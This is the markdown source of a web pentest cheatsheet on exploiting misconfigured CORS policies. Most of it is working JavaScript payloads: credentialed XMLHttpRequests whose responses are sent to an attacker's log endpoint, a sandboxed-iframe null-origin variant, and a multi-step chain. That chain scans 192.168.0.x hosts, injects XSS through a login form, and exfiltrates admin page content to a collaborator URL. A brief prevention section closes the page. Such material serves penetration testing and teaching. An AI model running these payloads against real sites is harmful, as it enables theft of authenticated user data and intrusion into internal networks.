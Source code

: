 ```yaml
---
title: "CORS attack"
subtitle: ""
draft: false
author: "Hato0"
description: "CORS cheatsheet"

tags: ["web", "penetest", "cors"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-origin resource sharing

Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.  It can provide an attack vector to cross-domain based attacks, if a website's CORS policy is poorly configured and implemented. 

To check for the Access-Control-Allow-Origin value you can send a request including the following header:
`Origin: WEBSITE`

The presence of Access-Control-Allow-Credentials is a good indicator of potential CORS.

## Some examples

- Basic origin reflection

	On your website you can place a script looking like this one : 
	
	{{< highlight javascript "lineNos=false" >}}
	<script>  
	 var req = new XMLHttpRequest();  
	 req.onload = reqListener;  
	 req.open('get','FULL_URL_TO_TARGET',true);  
	 req.withCredentials = true;  
	 req.send();  

	 function reqListener() {  
	 location='/log?key='+this.responseText;  
	 };  
	</script>
    {{< /highlight >}}
	 
	 This script will fetch the FULL_URL_TO_TARGET page using the Access-Control-Allow-Credentials header. Then when the page will be loaded, it will take the page data  and send it back to you on your website.
	 
	 
- Trusted null origin

	Basicly this is the same as the previous one, just include the ifram with sandbox options:
	`sandbox="allow-scripts allow-top-navigation allow-forms"`

	{{< highlight javascript "lineNos=false" >}}
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>  
	 var req = new XMLHttpRequest ();  
	 req.onload = reqListener;  
	 req.open('get','FULL_URL_TO_TARGET',true);  
	 req.withCredentials = true;  
	 req.send();  

	 function reqListener() {  
	 location='YOUR_WEBSITE/log?key='+encodeURIComponent(this.responseText);  
	 };  
	</script>"></iframe>
	{{< /highlight >}}
	
	
- Internal network pivot attack

	This one is the trickier, it will follow these steps:
	
	1. Scan for endpoint in the internal network, it will fetch a XSS on the scanned page, your website log should include port and the corresponding IP.
	
		{{< highlight javascript "lineNos=false" >}}
		<script>
		var q = [], collaboratorURL = 'YOURWEBSITE';
		for(i=1;i<=255;i++){
		  q.push(
		  function(url){
			return function(wait){
			fetchUrl(url,wait);
			}
		  }('http://192.168.0.'+i+':8080'));
		}
		for(i=1;i<=20;i++){
		  if(q.length)q.shift()(i*100);
		}
		function fetchUrl(url, wait){
		  var controller = new AbortController(), signal = controller.signal;
		  fetch(url, {signal}).then(r=>r.text().then(text=>
			{
			location = collaboratorURL + '?IP='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
		  }
		  ))
		  .catch(e => {
		  if(q.length) {
			q.shift()(wait);
		  }
		  });
		  setTimeout(x=>{
		  controller.abort();
		  if(q.length) {
			q.shift()(wait);
		  }
		  }, wait);
		}
		</script>
		{{< /highlight >}}
		
		2. Then you will be able to go for XSS fetching, using information previously retrieve

		{{< highlight javascript "lineNos=false" >}}
		<script>  
		function xss(url, text, vector) {  
		 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="(\[^"\]+)"/)\[1\];  
		}  

		function fetchUrl(url, collaboratorURL){  
		 fetch(url).then(r=>r.text().then(text=>  
		 {  
		 xss(url, text, '"><img src='+collaboratorURL+'?isXSS=1>');  
		 }  
		 ))  
		}  

		fetchUrl("http://IP_FOUND", "YOURWEBSITE");  
		</script>
		{{< /highlight >}}

		3. From the previous step, you will locate a potential XSS, if you find one it would be display in your website logs using `isXSS=1`. In this part we will go for the XSS exploit and retrieve the web page content.

		{{< highlight javascript "lineNos=false" >}}
		<script>  
		function xss(url, text, vector) {  
		 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="(\[^"\]+)"/)\[1\];  
		}  
		function fetchUrl(url, collaboratorURL){  
		 fetch(url).then(r=>r.text().then(text=>  
		 {  
		 xss(url, text, '"><iframe src=/admin onload="new Image().src=\\''+collaboratorURL+'?code=\\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');  
		 }  
		 ))  
		}  

		fetchUrl("http://IP_FOUND", "YOURWEBSITE");    
		</script>
		{{< /highlight >}}
		
		4. Then you are free to do whatever you want, iframe injection, CSRF, ...
	
		
## How to prevent them 

CORS are only present due to misconfigurations, you can use these headers to configure it correctly (and also use your brain again).
- Access-Control-Allow-Origin: 
	- Allow content from listed websites
	- Avoid null value => can be exploit as we see above
	- Avoid local things as you don't protect your colleagues actions
